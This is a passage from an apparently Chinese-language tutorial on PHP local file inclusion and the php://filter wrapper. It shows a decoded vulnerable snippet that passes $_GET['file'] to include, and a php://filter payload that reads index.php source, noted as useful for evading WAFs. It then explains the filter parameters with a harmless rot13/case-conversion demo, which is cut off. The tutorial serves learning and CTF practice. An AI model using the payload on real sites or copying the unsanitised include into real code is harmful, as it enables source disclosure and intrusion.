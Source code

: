 ```
>>> import base64
>>> base64.b64decode("PD9waHAgDQoJJGZpbGUgPSAkX0dFVFsnZmlsZSddOw0KCWluY2x1ZGUgJGZpbGU7DQo/Pg==")
b"<?php \r\n\t$file = $_GET['file'];\r\n\tinclude $file;\r\n?>"
```

其他姿势：

```
index.php?file=php://filter/convert.base64-encode/resource=index.php
```



效果跟前面一样，少了read等关键字。在绕过一些waf时也许有用。



#### 过滤器

`php://filter` 是一种元封装器， 设计用于数据流打开时的筛选过滤应用。 这对于一体式（all-in-one）的文件函数非常有用，类似 readfile()、 file() 和 file_get_contents()， 在数据流内容读取之前没有机会应用其他过滤器。



```bash
resource=<要过滤的数据流>     这个参数是必须的。它指定了你要筛选过滤的数据流。
read=<读链的筛选列表>         该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
write=<写链的筛选列表>    该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
<；两个链的筛选列表>        任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。
```



**可以运用多种过滤器（字符串/转换/压缩/加密）**



#### **<字符串过滤器>**

```php
string.rot13  进行rot13转换
string.toupper  将字符全部大写
string.tolower  将字符全部小写
string.strip_tags 去除空字符、HTML 和 PHP 标记后的结果。功能类似于strip_tags()函数，若不想某些字符不被消除，后面跟上字符，可利用字符串或是数组两种方式。（自PHP 7.3.0起已弃用此功能。）
```



举例

```php
<?php
    $fp = fopen('php://output', 'w');
    stream_filter_append($fp, 'string.rot13');
    echo "rot13:";
    fwrite($fp, "This is a test.\n");
    fclose($fp);
    echo "<br>";

    $fp = fopen('php://output', 'w');
    stream_filter_append($fp, 'string.toupper');
    echo "Upper:";
    fwrite($fp, "This is a test.\n");
    fclose($fp);
    echo "<br>";

    $fp = fopen('php://output', 'w');
    stream_filter_append($fp, 'string.tolower');
    echo "Lower:";
    fwrite($fp, "This is a test.\n");
    fclose($fp);
    echo "<br>";

```